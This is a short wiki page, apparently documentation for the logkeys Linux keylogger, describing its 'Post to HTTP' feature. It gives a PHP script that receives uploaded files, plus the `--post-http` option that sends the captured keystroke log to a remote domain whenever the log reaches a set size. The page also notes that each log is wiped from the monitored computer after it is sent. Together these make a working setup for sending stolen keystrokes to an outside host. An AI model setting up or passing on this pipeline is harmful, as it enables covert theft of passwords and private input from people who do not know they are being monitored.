 ![warning](./docs_warning.png)

# Post to HTTP #
A sample implementation:
  1. Get some [PHP web hosting](http://www.google.com/search?q=free+web+hosting), get [domain name](http://GetFreeDomain-Site.co.cc/list).
  1. Upload the following PHP script, name it "upload.php"
```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>
```
  1. Run logkeys with `--post-http=http://your.doma.in/upload.php` and it will upload log to specified URL every once it reaches `--post-size` in size (default 500KB). Note, the script above will overwrite "new.log" file every time. Also note that once the log is successfully sent, it is wiped from the monitored computer.

<wiki:gadget up\_ad\_client="2900001379782823" up\_ad\_slot="3948022173" width="728" height="90" border="0" up\_keywords="logkeys,gnu,linux,keylogger,keyboard,serial,usb,software,open-source" url="http://goo.gl/R5bvK" />